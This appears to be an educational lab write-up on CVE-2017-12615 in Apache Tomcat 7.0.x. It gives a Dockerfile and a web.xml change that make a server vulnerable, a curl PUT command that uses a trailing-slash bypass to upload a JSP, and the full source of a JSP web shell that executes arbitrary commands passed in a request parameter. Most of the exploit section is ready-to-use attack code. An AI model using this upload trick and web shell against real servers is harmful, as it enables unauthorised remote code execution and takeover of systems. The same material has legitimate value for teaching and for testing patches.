

# CVE-2017-12615

## PS
- Bug Overview: When running Apache Tomcat 7.0.0 to 7.0.79 on Windows with HTTP PUTs enabled (e.g. via setting the read-only initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server. That could lead to remote code execution on the server.
- Aim: Write a working exploit for this CVE by which you can achieve RCE on local VM/Docker.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


## Description
As a security measure, Apache Tomcat doesn't let you upload JSP files via the PUT method. But due to insufficient checks, an attacker can upload JSP files on 7.0.0 to 7.0.79 Tomcat servers that have PUT method enabled and as a result get remote code execution.


## Environment
We replicated the environment for this vulnerability in a docker container using the following Dockerfile on Windows 10 host. This will use tomcat 7.0.79, we replace the web.xml file with our modified file (setting readonly parameter to false) and start the service on port 8080.
```dockerfile
FROM tomcat:7.0.79-jre8
COPY web.xml /usr/local/tomcat/conf/
EXPOSE 8080
```

We added the following code in web.xml to enable the PUT method.
```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```


## Exploit
We can bypass the file extension check by appending a '/' character after the file's extension, this way it is fooled into thinking that the file just uploaded is not a JSP file. We used the following curl command to upload a JSP file on the server.

```bash
curl -X PUT http://localhost:8080/reverse_shell.jsp/ -d @- < reverse_shell.jsp
```


Ther `reverse_shell.jsp` file receives the command to be executed using HTML, so we can directly goto `http://localhost:8080/reverse_shell.jsp` and execute commands on the server :)


```js
<%@ page import="java.util.*,java.io.*"%>
<%%>
<HTML>
    <BODY>
        <H3>JSP SHELL</H3>
        <FORM METHOD="GET" NAME="myform" ACTION="">
            <INPUT TYPE="text" NAME="cmd">
            <INPUT TYPE="submit" VALUE="Execute">
        </FORM>
        <PRE>
            <%
                if (request.getParameter("cmd") != null) {
                    out.println("Command: " +
                    request.getParameter("cmd") + "<BR>");
                    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
                    OutputStream os = p.getOutputStream();
                    InputStream in = p.getInputStream();
                    DataInputStream dis = new DataInputStream(in);
                    String disr = dis.readLine();
                    while ( disr != null ) {
                        out.println(disr);
                        disr = dis.readLine();
                    }
                }
            %>
        </PRE>
    </BODY>
</HTML>
```

Finally we have our reverse shell working and we are able to execute arbitrary shell commands from browser.


